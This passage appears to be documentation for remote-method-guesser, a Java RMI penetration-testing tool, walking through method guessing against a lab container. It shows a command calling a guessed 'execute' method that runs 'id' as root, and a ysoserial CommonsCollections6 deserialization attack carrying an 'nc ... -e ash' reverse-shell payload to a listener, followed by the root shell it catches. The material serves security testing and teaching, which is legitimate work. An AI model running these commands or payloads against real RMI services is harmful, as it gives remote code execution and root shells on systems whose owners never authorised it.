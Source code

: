 ```
[+] 	done.
[+]
[+] Listing successfully guessed methods:
[+]
[+] 	- plain-server2 == plain-server
[+] 		--> String execute(String dummy)
[+] 		--> String system(String dummy, String[] dummy2)
[+] 	- legacy-service
[+] 		--> void logMessage(int dummy1, String dummy2)
[+] 		--> void releaseRecord(int recordID, String tableName, Integer remoteHashCode)
[+] 		--> String login(java.util.HashMap dummy1)
```

Identified methods can be called like this:

```
$ rmg call 172.17.0.2 9010 '"id"' --bound-name plain-server --signature "String execute(String dummy)" --plugin GenericPrint.jar 
[+] uid=0(root) gid=0(root) groups=0(root)
```

Or you can perform deserialization attacks like this:

```
$ rmg serial 172.17.0.2 9010 CommonsCollections6 'nc 172.17.0.1 4444 -e ash' --bound-name plain-server --signature "String execute(String dummy)"
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI endpoint...
[+]
[+] 	Using non primitive argument type java.lang.String on position 0
[+] 	Specified method signature is String execute(String dummy)
[+]
[+] 	Caught ClassNotFoundException during deserialization attack.
[+] 	Server attempted to deserialize canary class 6ac727def61a4800a09987c24352d7ea.
[+] 	Deserialization attack probably worked :)

$ nc -vlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:45479.
id
uid=0(root) gid=0(root) groups=0(root)
```

More information can be found in these articles:

* [Attacking Java RMI services after JEP 290](https://mogwailabs.de/de/blog/2019/03/attacking-java-rmi-services-after-jep-290/)
* [Method Guessing](https://github.com/qtc-de/remote-method-guesser/blob/master/docs/rmg/method-guessing.md)
* [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)
* [rmiscout](https://bishopfox.com/blog/rmiscout)
